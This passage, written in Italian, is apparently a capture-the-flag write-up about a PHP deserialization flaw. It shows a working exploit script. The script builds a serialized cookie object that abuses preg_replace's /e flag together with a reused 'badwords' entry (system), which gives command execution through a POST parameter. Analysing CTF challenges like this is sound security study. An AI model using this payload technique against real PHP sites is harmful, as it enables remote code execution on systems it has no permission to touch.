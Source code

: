 ```php
            if(in($this->auditor->replace, $hackattempt)){
               die("WAF");
            }
         }
         $this->fullpath = @preg_replace("/". $attack , $this->auditor->replace , $this->fullpath);
        }
    }
}

Class SecurityCheck {
    public $attacks = array("([.]+\/)/", "(\\x00)$/");    
    public $replace = './';    
    public function get_attacks()
    {
        return $this->attacks;
    }    
}
?>
```

La classe definisce il metodo `__wakeup`, che viene chiamata quando un oggetto viene deserializzato. Notiamo che il metodo esegue `preg_replace` su alcuni parametri che vengono definiti dall'oggetto (e che controlliamo), dopo aver verificato che i parametri non contengono "badwords" - che permetterebbero l'esecuzione di codice via il flag `/e` di `preg_replace`.

Abbiamo bypassato questo check riutilizzando l'array `badwords` per richiamare una delle funzioni che viene controllata. Abbiamo preparato uno script php che genera l'oggetto con i parametri che vogliamo e lo converte automaticamente nel formato utilizzabile dal cookie `editor`:

```php
<?php
class StyleEditor {
    public $fullpath;
    public $filepath;
    public $auditor; 

    public function __construct() {
        $this->fullpath = "/var/www/CTF/settings.php"; 
        $this->filepath = "./settings.php"; 
        $this->auditor = new SecurityCheck; 
    }
}
class SecurityCheck{
    public $attacks = array("settings/e");
    public $replace = '\$badwords[2](\$_POST["x"]);';
}
print serialize(new StyleEditor);
print "\n";
print base64_encode(serialize(new StyleEditor));
print "\n";
```

I parametri che vengono utilizzati per effettuare command execution sono due:
- `attacks` viene utilizzato come primo parametro della `preg_replace`. Come vedete c'è il flag `/e` alla fine che permette l'esecuzione del codice quando la regex è valida.
- `replace` che contiene il codice da eseguire. `$badwords[2]` corrisponde a `system`, e possiamo eseguire qualsiasi comando passato alla variabile `x` tramite `POST`.
